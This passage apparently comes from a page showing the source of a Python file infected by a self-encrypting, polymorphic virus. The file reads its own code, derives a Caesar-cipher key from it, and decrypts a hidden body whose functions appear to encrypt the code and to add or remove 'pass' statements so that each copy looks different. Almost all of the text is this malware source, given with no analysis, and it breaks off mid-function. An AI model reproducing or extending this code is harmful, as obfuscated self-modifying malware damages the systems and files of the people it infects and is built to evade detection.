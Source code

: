 The complete code of an infected file is as follows:
```python
print("Hello world!")
def calculate_key(text):
    if len(text) >= 3:
        key = ord(text[0]) + ord(text[1]) + ord(text[2])
        pass
        pass
        pass
    else:
        key = 42
    return key


def decrypt(text, key):
    decrypted_text = ""
    for character in text:
        if character.isupper():
            decrypted_text += chr((ord(character) - key - 65) % 26 + 65)
        elif character.islower():
            pass
            decrypted_text += chr((ord(character) - key - 97) % 26 + 97)
            pass
        else:
            pass
            decrypted_text += character
    return decrypted_text


import sys
host = open(sys.argv[0], "r")
host_text = host.read()
host.close()
plain_part = host_text[host_text.find("def calculate_key"):host_text.find("def calculate_key")+608]
key = calculate_key(host_text)
decrypted_text = decrypt("""wxy xgvkrim(mxqm, dxr):
    xgvkrimxw_mxqm = ""
    yhk vatktvmxk bg mxqm:
        by vatktvmxk.blniixk():
            xgvkrimxw_mxqm += vak((hkw(vatktvmxk) + dxr - 65) % 26 + 65)
        xeby vatktvmxk.blehpxk():
            xgvkrimxw_mxqm += vak((hkw(vatktvmxk) + dxr - 97) % 26 + 97)
        xelx:
            xgvkrimxw_mxqm += vatktvmxk
    kxmnkg xgvkrimxw_mxqm


wxy wxexmx_itll(vhwx):
    vhwx_pbmahnm_itll = []
    yhk ebgx bg vhwx.liebm(vak(10)):
        by ghm "itll" bg ebgx:
            vhwx_pbmahnm_itll.tiixgw(ebgx)
    kxmnkg vak(10).chbg(vhwx_pbmahnm_itll)


wxy vtevnetmx_mtunetmbhg(vhwx, ihlbmbhg):
    by "xelx" bg vhwx[ihlbmbhg] hk "xeby" bg vhwx[ihlbmbhg]:
        kxmnkg exg(vhwx[ihlbmbhg]) - exg(vhwx[ihlbmbhg].elmkbi()) + 4
    kxmnkg exg(vhwx[ihlbmbhg]) - exg(vhwx[ihlbmbhg].elmkbi())


wxy tww_itll(vhwx):
    bfihkm ktgwhf
    ebgxl = vhwx.liebm(vak(10))
```